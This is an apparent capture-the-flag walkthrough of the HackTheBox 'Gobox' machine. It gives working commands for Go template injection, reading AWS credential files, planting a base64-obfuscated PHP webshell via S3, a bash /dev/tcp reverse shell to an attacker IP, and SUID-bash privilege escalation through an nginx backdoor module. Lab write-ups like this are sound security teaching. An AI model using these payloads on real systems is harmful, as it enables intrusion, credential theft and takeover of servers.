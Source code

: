 # [Gobox](https://app.hackthebox.com/machines/gobox)

```bash
nmap -p- --min-rate 10000 10.10.11.113 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here for this ports.

```bash
nmap -A -sC -sV -p22,80,4566,8080 10.10.11.113 -Pn
```

![alt text](img/image-1.png)


I start to enumeration my target's ports from port `8080`.


Let's look at web application.

![alt text](img/image-2.png)


I just fuzz login part, but there's nothing as interested.


Let's look at `Forgot Password` feature.

![alt text](img/image-3.png)


Also from `X-Forwarded-Server`, I see that `Go` language is used.

![alt text](img/image-4.png)


That's why I search `Template Injections` for `Go` language and find this [blog](https://exploit-notes.hdks.org/exploit/web/go-ssti/).


First, I tried this payload `{{ .ExecuteCmd "whoami" }}` which doesn't work as because there's no function called `ExecuteCmd`.


But from source code, I find that string should be `DebugCmd`.That's why I change `SSTI` (Server-Side Template Injection) payload as below.
```bash
{{ .DebugCmd "id" }}
```

![alt text](img/image-5.png)



I tried `reverse shell` payloads, but none of them worked.


Let's enumerate machine.

```bash
email={{ .DebugCmd "hostname" }}
```

![alt text](img/image-6.png)

From here, I know that this machine is located on `Cloud`.


Let's look at `aws` binary's location.
```bash
email={{ .DebugCmd "which aws" }}
```

![alt text](img/image-7.png)

As I am root, let's look at all files on my home directory.
```bash
email={{ .DebugCmd "ls -al ~" }}
```

![alt text](img/image-8.png)

Finally, I find file called `credentials` which contains sensitive credentials `aws_access_key_id` and `aws_secret_access_key`.

```bash
email={{ .DebugCmd "cat ~/.aws/credentials" }}
```

![alt text](img/image-9.png)


aws_access_key_id:SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz

aws_secret_access_key:SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz


Let's put these into my local `credentials` config file for `aws`.

```bash
echo {data} > ~/.aws/credentials
```

![alt text](img/image-10.png)


Now, let's look at `S3` buckets.
```bash
aws --endpoint-url http://10.10.11.113:4566 s3 ls
```

![alt text](img/image-11.png)


One thing comes to my mind, that I can put webshell into some location on target.
```bash
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > /tmp/dr4ks
```

![alt text](img/image-12.png)


By this way doesn't work and prohibited by `nginx`, that's why I will `obfuscate` this via `base64` encoding.

![alt text](img/image-13.png)

```bash
{{ .DebugCmd "echo -n PD9waHAgZWNobyBzaGVsbF9leGVjKCRfUkVRVUVTVFsiY21kIl0pOyA/Pg== | base64 -d > /tmp/dr4ks.php" }}
```

![alt text](img/image-14.png)

Then, I need to copy this file into `website` S3 bucket.
```bash
aws s3 cp /tmp/dr4ks.php s3://website/dr4ks.php
```

![alt text](img/image-15.png)


Let's browse this webshell.
```bash
curl http://10.10.11.113/dr4ks.php?cmd=id
```

![alt text](img/image-16.png)


Let's add our `reverse shell` into this payload to get shell.
```bash
curl http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261'
```

![alt text](img/image-17.png)


Hola! I got reverse shell from port `1337`.

![alt text](img/image-18.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-19.png)



user.txt

![alt text](img/image-20.png)



Let's look at `modules` which are located on `/etc/nginx/modules-enabled`.

![alt text](img/image-21.png)


I find `50-backdoor.conf` file which says interesting data to me.

![alt text](img/image-22.png)


It is about exectuion of system commands, I looked at abusing of this module from [here](https://github.com/limithit/NginxExecute).


Let's find this file's location via `find` command.
```bash
find / -name ngx_http_execute_module.so 2>/dev/null
```

![alt text](img/image-23.png)


Let's get this file to read content.

First, we need to open http.server on target.
```bash
python3 -m http.server 8081
```

![alt text](img/image-24.png)

Let's download this file into our attacker machine.
```bash
wget http://10.10.11.113:8081/ngx_http_execute_module.so
```

![alt text](img/image-25.png)


I find correct syntax by `grepping` the `run` string.
```bash
strings ngx_http_execute_module.so | grep run
```

![alt text](img/image-26.png)


Let's check this backdoor via `curl` command.
```bash
curl http://127.0.0.1:8000?ippsec.run[id]
```

![alt text](img/image-27.png)



Now, I will give malicious script that makes copy of `/bin/bash` file and give `SUID` privilege to this file.

![alt text](img/image-29.png)

While I enter this payload, I need to make this `URL Encoded` for all characters.

```bash
curl "http://127.0.0.1:8000?ippsec.run[cp%20%2Fbin%2Fbash%20%2Ftmp%2Fdr4ks%3B%20chmod%204777%20%2Ftmp%2Fdr4ks]"
```

![alt text](img/image-28.png)


Let's run this copied `/bin/bash` file via `-p` option.
```bash
/tmp/dr4ks -p
```

root.txt

![alt text](img/image-30.png)